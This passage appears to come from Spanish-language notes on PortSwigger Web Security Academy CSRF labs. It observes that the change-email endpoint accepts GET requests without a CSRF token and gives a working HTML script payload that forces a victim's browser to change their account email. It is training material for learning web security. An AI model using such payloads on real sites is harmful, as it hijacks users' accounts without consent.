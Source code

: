 > Vemos que la url permite el método GET.

![](/img2/Pasted%20image%2020250730202540.png)

![](/img2/Pasted%20image%2020250730202614.png)

> Si quitamos el token csrf también nos permite enviar la petición.

![](/img2/Pasted%20image%2020250730202711.png)

- Injection

```html
<script>
location="https://0a9100e204c0866080e0c14800db0007.web-security-academy.net/my-account/change-email/?email=pwnd@pwnd.com";
</script>
```

## CSRF con validación solo si hay token presente || CSRF where token validation depends on token being present
